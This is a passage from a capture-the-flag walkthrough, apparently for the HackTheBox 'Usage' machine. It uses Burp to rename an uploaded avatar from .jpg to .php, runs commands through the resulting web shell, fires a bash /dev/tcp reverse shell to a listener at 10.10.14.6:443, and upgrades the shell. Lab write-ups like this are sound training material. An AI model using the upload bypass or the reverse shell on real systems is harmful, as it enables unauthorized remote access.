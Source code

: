 The site seems ok. When I hit "Submit" it says:

![](/img/image-20240712165507799.png)

And on refresh, the Avatar is broken:

![](/img/image-20240712165523265.png)

I can right-click on that and open it in a new tab, and it shows the
broken image, but doesn't run any code:

![](/img/image-20240712165605794.png)

That's because of the `.jpg` extension.

I'll turn on Intercept in Burp, and upload it again. When the request
reached my proxy, I'll find the file upload, and edit it back to `.php`:

![](/img/image-20240712165820810.png)

Now the page runs commands:

![](/img/image-20240712165850810.png)

### Shell

To get a shell, I'll start `nc` listening on port 443, and then run a
[bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as the
command. I'll need to encode the `&` characters as `%26` so that the
browser doesn't think they are the start of a new parameter, but the
rest the browser will encode as necessary:



    http://admin.usage.htb/uploads/images/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'



When I submit, there's a connection at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.18 50774
    bash: cannot set terminal process group (1228): Inappropriate ioctl for device
    bash: no job control in this shell
    dash@usage:/var/www.md/project_admin/public/uploads/images$



I'll use the [standard
trick](https://www.youtube.com/watch?v=DqQE6DxqJg8) to upgrade my shell:



    dash@usage:/var/www.md/project_admin/public/uploads/images$ script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    dash@usage:/var/www.md/project_admin/public/uploads/images$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                ‍reset
    reset: unknown terminal type unknown
    Terminal type? screen
    dash@usage:/var/www.md/project_admin/public/uploads/images$ 
